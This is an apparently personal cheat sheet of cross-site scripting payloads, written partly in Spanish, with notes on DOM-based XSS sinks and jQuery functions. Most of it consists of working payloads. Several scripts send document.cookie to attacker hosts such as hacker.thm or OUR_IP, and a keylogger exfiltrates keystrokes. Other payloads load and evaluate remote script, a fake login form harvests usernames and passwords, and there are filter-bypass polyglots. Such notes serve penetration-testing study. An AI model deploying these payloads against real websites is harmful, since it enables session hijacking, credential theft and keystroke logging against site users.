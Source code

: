 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:

A
    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B
    document.location='http://OUR_IP/index.php?c='+document.cookie;
C
    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D
    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



keylogger
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


quebrar un código JS que recibe el imput
';alert('THM');//

No HTML inject and script clean:
<sSCRIPTcript> </sSCRIPTcript>

Polyglots:

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

probar si se conecta a otro servidor:
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>


fake form

document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


####################### DOM XSS
Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.
##### armado de payloads:
stored DOM xss:
<><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 
###DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)
$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

jquery:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()







